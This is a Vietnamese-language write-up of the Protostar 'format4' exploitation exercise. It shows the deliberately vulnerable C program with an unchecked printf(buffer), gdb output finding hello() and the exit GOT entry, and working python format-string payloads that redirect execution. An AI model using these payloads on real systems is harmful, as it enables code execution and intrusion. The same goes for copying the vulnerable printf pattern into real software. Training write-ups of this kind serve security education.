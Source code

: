 # FORMAT FOUR

## About

format4 looks at one method of redirecting execution in a process.

Hints:

  * objdump -TR is your friend

This level is at /opt/protostar/bin/format4

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Solutions

`FORMAT FOUR` cho chúng ta thấy được khi overwrite everywhere sử dụng format string được ghi vào những vị trí chuyển hướng thực thi trong chương trình sẽ giúp chúng ta điều khiển luồng thực thi chương trình thực thi theo ý ta muốn.

Thử thách này hoàn thành khi ta in ra được dòng chữ `"code execution redirected! you win"` nhưng lại không hề có điều kiện hay chỗ nào gọi đến hàm `hello()` trong hai hàm mà chương trình sẽ thực thi là `main()` và  `vuln()`.

Ý tưởng của bài này là sẽ ghi đè địa chỉ hàm `hello()` lên địa chỉ của hàm `exit(1)` được lưu trong `GOT - Global Offset Table` để khi thoát hàm `vuln()` chương trình sẽ chuyển hướng thực thi tới `hello()` thay vì gọi hàm `exit(1)` và thoát chương trình.

Địa chỉ hàm `hello()`.

```
root@protostar:/opt/protostar/bin# gdb -q ./format4
Reading symbols from /opt/protostar/bin/format4...done.
(gdb) set disassembly-flavor intel
(gdb) p hello
$1 = {void (void)} 0x80484b4 <hello>
```

Tiếp theo là địa chỉ trong `GOT` nơi chứa địa chỉ của `exit(1)`. Bạn có thể đọc hiểu rõ hơn về `GOT` và `PLT` ở tài liệu tôi để ở `Documents`. 

```
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   ebp
0x080484d3 <vuln+1>:    mov    ebp,esp
0x080484d5 <vuln+3>:    sub    esp,0x218
0x080484db <vuln+9>:    mov    eax,ds:0x8049730
0x080484e0 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x080484e4 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x080484ec <vuln+26>:   lea    eax,[ebp-0x208]
0x080484f2 <vuln+32>:   mov    DWORD PTR [esp],eax
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    eax,[ebp-0x208]
0x08048500 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   mov    DWORD PTR [esp],0x1
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>
End of assembler dump.
(gdb) x/2i 0x80483ec
0x80483ec <exit@plt>:   jmp    DWORD PTR ds:0x8049724
0x80483f2 <exit@plt+6>: push   0x30
(gdb)
```

Vậy là địa chỉ `GOT của exit(1)` = 0x8049724.

```
                 1      2      3
hex     | \xb4 | \x84 | \x04 | \x08 |
decimal | 180  |  388 |  516 |  776 |
Đã có   |  16  |  180 | 388  |  516 |
Cần     |  164 | 208  | 128  | 260  |
para    |  4   |  5   |  6   |   7  |
Addr:
0x80497xx| 24  | 25   | 26   |  27  |

```

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# python -c 'print "\x24\x97\x04\x08\x25\x97\x04\x08\x26\x97\x04\x08\x27\x97\x04\x08" + "%164x" + "%4$n" + "%208x" + "%5$n" + "%128x" + "%6$n" + "%260x" + "%7$n"' | ./format4
$%&'                                                                                                                                                                 200                                                                                                                                                                                                        b7fd8420                                                                                                                        bffffb04                                                                                                                                                                                                                                                             8049724
code execution redirected! you win
```

Cách điền `hn-hn` bạn có thể tự viết nó khi đã nắm vững hơn cách overwrite everywhere bằng format strings.

```
python -c 'print "\x24\x97\x04\x08\x26\x97\x04\x08" + "%" + str(0x84b4 - 8) + "x%4$hn" + "%" + str(0x10804 - 0x84b4) + "x%5$hn"' | ./format4
```

## Documents

<https://www.exploit-db.com/papers/13203>



